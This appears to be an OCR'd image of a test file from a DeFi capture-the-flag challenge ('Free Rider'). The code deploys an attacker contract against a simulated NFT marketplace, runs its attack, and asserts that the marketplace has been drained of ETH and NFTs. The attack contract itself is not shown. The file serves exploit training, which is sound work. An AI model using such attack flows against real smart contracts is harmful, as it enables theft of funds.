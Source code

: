 ```apache

    //14. Deploy buyer's contract, adding the attacker as the partner
    this.buyerContract = await (
      await ethers.getContractFactory('FreeRiderBuyer', buyer)
    ).deploy(
      attacker.address, // partner
      this.nft.address,
      { value: BUYER_PAYOUT }
    );
  });

  it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    const Crack = await ethers.getContractFactory('CrackFreeRider', attacker);
    this.crack = await Crack.deploy(
      this.uniswapFactory.address,
      this.weth.address,
      this.token.address,
      this.marketplace.address,
      this.buyerContract.address,
      {
        value: ethers.utils.parseEther('0.3'),
      }
    );
    console.log('balance of attacker BEFORE the attack is:');
    console.log(ethers.utils.formatUnits(await ethers.provider.getBalance(attacker.address)));

    await this.crack.attack();
    console.log('balance of attacker AFTER the attack is:');
    console.log(ethers.utils.formatUnits(await ethers.provider.getBalance(attacker.address)));
  });

  after(async function () {
    /** SUCCESS CONDITIONS */

    // Attacker must have earned all ETH from the payout
    expect(await ethers.provider.getBalance(attacker.address)).to.be.gt(BUYER_PAYOUT);
    expect(await ethers.provider.getBalance(this.buyerContract.address)).to.be.eq('0');

    // The buyer extracts all NFTs from its associated contract
    for (let tokenId = 0; tokenId < AMOUNT_OF_NFTS; tokenId++) {
      await this.nft.connect(buyer).transferFrom(this.buyerContract.address, buyer.address, tokenId);
      expect(await this.nft.ownerOf(tokenId)).to.be.eq(buyer.address);
    }

    // Exchange must have lost NFTs and ETH
    expect(await this.marketplace.amountOfOffers()).to.be.eq('0');
    expect(await ethers.provider.getBalance(this.marketplace.address)).to.be.lt(MARKETPLACE_INITIAL_ETH_BALANCE);
  });
});

```
